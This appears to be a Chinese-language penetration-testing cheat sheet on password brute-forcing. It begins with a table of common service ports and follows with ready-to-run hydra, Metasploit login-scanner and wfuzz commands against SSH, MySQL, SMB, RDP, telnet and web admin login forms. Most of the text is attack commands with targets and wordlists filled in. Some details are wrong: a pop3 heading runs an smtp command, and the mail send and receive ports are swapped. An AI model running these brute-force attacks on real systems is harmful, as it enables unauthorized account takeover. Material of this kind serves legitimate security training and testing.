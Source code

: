 
|服务| 端口| 
| --- | --- |
|web| 80 | 
|mysql |3306 |
|Microsoft SQL Server |1433|
|https | 443 |
|ftp |21 |
|ssh | 22| 
|dns| 53|
|tomcat| 8080|
|redis| 6379|
|rsync| 873|
|PostgreSQL |5432|
|cobaltstrike teamserver| 50050|
|smtp| 25|
|pop3 |110 |
|远程终端 rdp| 3389|
|smb |445 |
|rpc| 135 |
|imap| 143 |
|NetBIOS| 139|
|SMTPS| 465 |
|POP3S| 995 |
|mogodb| 27018 |
|memcached |11211 |
|telnet |23 |
|oracle |1521|

# [[hydra]]
##### 使用 hydra 穷举 ssh 服务
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f
																			\ssh://192.168.1.104

#### 使用 hydra 穷举 mysql 服务
hydra ip mysql -l 用户名 -P 密码字典 -t 线程(默认 16) -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV -s 端口

#### 使用 hydra 穷举 smb 服务
hydra -l administrator -P 2019_top100.txt 192.168.52.6 smb -vV -f

#### 使用 hydra 穷举 http 服务
hydra -l admin -P 2019_top100.txt -vV -f \www.c1moon.com http-post-form
"/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"

#### 使用 hydra 穷举 pop3 服务
hydra -L user.txt -P qweasd123 192.168.52.6 smtp-vV -f

#### 使用 hydra 穷举 rdp 服务
hydra ip rdp -l administrator -P pass.txt -V

#### 使用 hydra 穷举 http-proxy 服务
hydra -l admin -P pass.txt http-proxy://10.36.16.18

#### 使用 hydra 穷举 telnet 服务
hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V


xhydra
![[Pasted image 20231210204920.png]]
# metasploit
metasploit 是一个渗透测试集成套件 同样也有穷举模块
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/smb/smb_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/oracle/oracle_login
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/vnc/vnc_login
auxiliary/scanner/pcanywhere/pcanywhere_login
auxiliary/scanner/snmp/snmp_login
>[!TIP]
模块的用法
首先启动在终端下启动 msfconsole
use 使用 ssh_login 模块
use auxiliary/scanner/ssh/ssh_login
show options 查看模块的参数
RHOSTS 攻击的目标
PASS_FILE 密码字典
STOP_ON_SUCCESS 成功破解一个终止
THREADS 线程数
set 设置参数
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/kali/2019_top100.txt
PASS_FILE => /home/kali/2019_top100.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.52.13
RHOSTS => 192.168.52.13
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/ssh/ssh_login) > show options
设置好后用 run 或者 exploit 进行攻击



# 御剑RDP爆破工具使用
![[Pasted image 20231210205244.png]]
# wfuzz多线程穷举密码

Usage: wfuzz [options] -z payload,params <url>
Examples:
wfuzz -c -z file,users.txt -z file,pass.txt --sc 200 http://www.site.com/log.asp?user=FUZZ&pass=FUZ2Z
wfuzz -c -z range,1-10 --hc=BBB http://www.site.com/FUZZ{something not there}
wfuzz --script=robots -z list,robots.txt http://www.webscantest.com/FUZZ
wfuzz -c -z file,2019_top100.txt --sc 302 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -z file,2019_top100.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -w /home/kali/csdnpass.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"

# 邮箱密码穷举
默认的收发邮件端口信息
发邮件 pop3 110 加密 995
收邮件 smtp 25 加密 465